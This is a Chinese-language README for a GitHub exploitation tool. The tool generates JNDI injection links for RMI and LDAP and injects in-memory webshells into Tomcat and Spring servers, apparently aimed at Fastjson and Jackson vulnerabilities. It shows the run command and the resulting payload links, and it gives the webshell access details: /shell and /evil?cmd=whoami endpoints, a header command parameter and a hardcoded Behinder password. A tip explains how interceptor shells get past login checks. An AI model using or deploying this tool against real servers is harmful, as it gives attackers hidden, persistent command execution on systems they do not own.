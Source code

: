 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open -a Calculator
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/svbmvr
Target environment(Springboot Interceptor Behinder Memshell):
rmi://127.0.0.1:1099/wf0teg
ldap://127.0.0.1:1389/wf0teg
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/dsedk6
ldap://127.0.0.1:1389/dsedk6
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/b3uiqm
ldap://127.0.0.1:1389/b3uiqm
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/2druq8
ldap://127.0.0.1:1389/2druq8
Target environment(Tomcat Filter Memshell):
rmi://127.0.0.1:1099/h4bsck
ldap://127.0.0.1:1389/h4bsck
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/6pvnje
ldap://127.0.0.1:1389/6pvnje
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/moasws
ldap://127.0.0.1:1389/moasws

----------------------------Server Log----------------------------
2023-08-29 12:34:05 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-29 12:34:05 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-29 12:34:06 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell
  - springboot的拦截器内存马，在request header中的command为入参执行命令

    ![(https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/3.jpg)
	
- Springboot interceptor Behinder Memshell:
  
	- springboot拦截器冰蝎内存马，在request header中的shell参数中跟上Behinder，输入密码即可连接
	
	![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/4.jpg)

- Tomcat Filter Memshell:
  - Tomcat filter内存马，在访问路径/evil?cmd=whoami，可以执行命令
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/5.jpg)

## Tips:

Q:为什么有了Servlet/Controller内存马还是需要Interceptor内存马呢？

A:如果服务端存在拦截器，指定如果未登录的状态除了/login接口其他都不执行，访问就会跳转回/login接口的话。这个controller的内存马不就访问不到了吗？访问不到就形同虚设了。所以controller的内存马并不能作为一种通用的内存马进行注入，于是就需要注入interceptor内存马了。

## 待实现

- 添加~~filter~~、~~Interceptor~~类型的内存马。
- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马



## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)

